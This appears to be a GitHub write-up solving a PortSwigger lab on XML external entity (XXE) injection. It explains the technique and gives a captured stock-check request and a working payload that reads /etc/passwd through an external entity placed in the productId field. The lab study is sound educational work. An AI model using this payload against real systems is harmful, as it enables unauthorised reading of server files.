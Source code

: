 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20653fe0-5306-47de-9852-879d7a9ae6ae)


## Overview :

#### Exploiting XXE to retrieve files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a **DOCTYPE element that defines an external entity** containing the path to the file.
- **Edit a data value in the XML that is returned in the application's response**, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity `&xxe`; whose value is the contents of the `/etc/passwd` file and uses the entity within the productId value. This causes the application's response to include the contents of the file:

```xml
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :

Click on one of the products & click the **checkstock** feature which is vulnerable to XXE.

The browser sends the following request.


```xml
POST /product/stock HTTP/1.1
Host: 0aa400220400046b804f17dc00d300c4.web-security-academy.net
Cookie: session=Nv6CS6L5nmAanBB776yX56ZFN4LVWnHm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0aa400220400046b804f17dc00d300c4.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0aa400220400046b804f17dc00d300c4.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

We can see that there is only 2 inputs that is passed via xml ie - **productID & storeID**.

First we declare a DOCTYPE with an external entity called xxe which retrieves the file _/etc/passwd_ - `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` 

We can now try to reference the entity in any of the 2 inputs to see which retreives the  /etc/passwd file & displays the content in the response.

**Payload**

Since the productID value is returned in response, we refer the entitiy in between the <productID> tags.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f85fbf17-31a9-4845-9a85-818510ec1cd9)

Thus we've solved the lab.
  
 ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6d811789-e3c0-4300-8978-e855a473d929)





















